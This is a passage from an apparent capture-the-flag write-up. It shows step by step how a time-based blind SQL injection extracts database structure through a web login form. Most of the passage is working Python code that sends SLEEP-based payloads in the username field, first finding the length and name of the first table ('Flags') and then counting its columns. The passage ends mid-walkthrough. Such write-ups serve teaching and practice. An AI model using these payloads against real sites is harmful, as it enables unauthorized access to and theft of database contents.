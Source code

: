 ![Num_Tables](https://user-images.githubusercontent.com/66698256/230970512-450ff0eb-d6ae-4e19-b259-62341338cb3b.png)


There are two tables. Now we'll find the length of the first table name and the first table name (because the flag is in the first table). Let's add the following code to the ones above:
```python
len_table1_name=1
while True:
        sql_injection="' OR 1=IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)="+str(len_table1_name)+", SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)    #Random Password
        except:
            break
        len_table1_name=len_table1_name+1
print ("[Found]The length of the first table name is: "+str(len_table1_name))

i=0
table1_name=""
while i<len_table1_name:
    for name_char in chars:
        sql_injection="' OR 1=IF((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) LIKE '"+str(table1_name+name_char)+"%', SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)  #Random Password
        except:
            table1_name+=name_char
            break
    i=i+1
print ("[Found]The first table name is: "+table1_name) #The first table is 'Flags'!
```
Let's run it:

![Flag_Len_Name_Table](https://user-images.githubusercontent.com/66698256/230970548-b1a7dba8-344e-49e6-b638-26c75e2ecd8b.png)

![Flag_Name_Table](https://user-images.githubusercontent.com/66698256/230970572-fdb28df6-47bd-48aa-854b-7990dbd17a00.png)


The first table name is "Flags". Now we'll find out the number of columns inside "Flags" table. Let's add the following code to the ones above:
```python
table1_columns_count=1
while True:
        sql_injection="' OR 1=IF((SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"')="+str(table1_columns_count)+", SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)    #Random Password
        except:
            break
        table1_columns_count=table1_columns_count+1
print ("[Found]The number of columns in the '"+table1_name+"' table is: "+str(table1_columns_count))
```
Let's run it:
